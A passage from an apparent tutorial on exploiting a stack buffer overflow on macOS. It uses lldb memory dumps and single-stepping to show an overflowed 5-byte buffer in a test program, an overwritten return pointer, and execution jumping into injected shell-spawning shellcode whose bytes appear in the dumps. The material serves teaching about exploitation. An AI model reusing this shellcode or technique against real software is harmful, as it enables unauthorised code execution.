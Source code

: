```
0x7fff5fbff950: 0x4918e0c14902b041 0xc0894cff3117c883
0x7fff5fbff960: 0xc083495f12eb050f 0x52d23148c0894c24
0x7fff5fbff970: 0xe9e8050fe6894857 0x2f6e69622fffffff
0x7fff5fbff980: 0x414141410068732f 0x4141414141414141
0x7fff5fbff990: 0x4141414141414141 0x007fff5fbff95041
0x7fff5fbff9a0: 0x18e0c14902b04100 0x894cff3117c88349
0x7fff5fbff9b0: 0x83495f12eb050fc0 0xd23148c0894c24c0
0x7fff5fbff9c0: 0xe8050fe689485752 0x6e69622fffffffe9
0x7fff5fbff9d0: 0x0000000a68732f2f 0x00007fff5fbffbe8
0x7fff5fbff9e0: 0x00007fff5fbffa10 0x00007fff8b339741
0x7fff5fbff9f0: 0x0000000000000f98 0x0000000000000000
0x7fff5fbffa00: 0x00007fff7666a050 0x0000000000000000
0x7fff5fbffa10: 0x00007fff5fbffa50 0x0000000100000f02 <--
0x7fff5fbffa20: 0x0000000000000000 0x0000000000000000
0x7fff5fbffa30: 0x0000000000000000 0x00007fff7666a050
0x7fff5fbffa40: 0x00007fff5fbffa70 0x0000000000000002
(lldb) 
```

Notice that the 0x0000000100000e80 return pointer is no longer there. The A's have been written in buf, overflowing the buffer, continuing to write and just at the right point the memory location 0x00007fff5fbff950 is written over the existing return pointer value. As you can see, 0x00007fff5fbff950 is an address on the stack, and by magical coincidence exactly the location where the shellcode is written to memory. It is in fact 0x7fff5fbff933 (the address printed below) plus 29 (21 A's and a length 8 memory location, as printed by the python script) Let us see what happens when we continue to step through the code after the allocate function returns:

```
(lldb) breakpoint set -l 17
Breakpoint 3: where = a.out`allocate(char*) + 43 at test.cpp:17, address = 0x0000000100000d5b
(lldb) continue
Process 40036 resuming
received input GET AAAAAAAAAAAAAAAAAAAAAP??_?0x7fff5fbff933
Process 40036 stopped
* thread #1: tid = 0x16b64e, 0x0000000100000d5b a.out`allocate(in="") + 43 at test.cpp:17, queue = 'com.apple.main-thread', stop reason = breakpoint 3.1
    frame #0: 0x0000000100000d5b a.out`allocate(in="") + 43 at test.cpp:17
   14  		char buf[5];
   15  		copy_lower(in, buf);
   16  		printf("%p\n", buf);	
-> 17  	}
   18  	
   19  	int parse(FILE *fp) {
   20  		char cmd[128], *url;
(lldb) step
Process 40036 stopped
* thread #1: tid = 0x16b64e, 0x00007fff5fbff950, queue = 'com.apple.main-thread', stop reason = step in
    frame #0: 0x00007fff5fbff950
->  0x7fff5fbff950: movb   $0x2, %r8b
    0x7fff5fbff953: shlq   $0x18, %r8
    0x7fff5fbff957: orq    $0x17, %r8
    0x7fff5fbff95b: xorl   %edi, %edi
(lldb) step
Process 40036 stopped
* thread #1: tid = 0x16b64e, 0x00007fff5fbff953, queue = 'com.apple.main-thread', stop reason = instruction step into
    frame #0: 0x00007fff5fbff953
->  0x7fff5fbff953: shlq   $0x18, %r8
    0x7fff5fbff957: orq    $0x17, %r8
    0x7fff5fbff95b: xorl   %edi, %edi
    0x7fff5fbff95d: movq   %r8, %rax
(lldb) step
Process 40036 stopped
```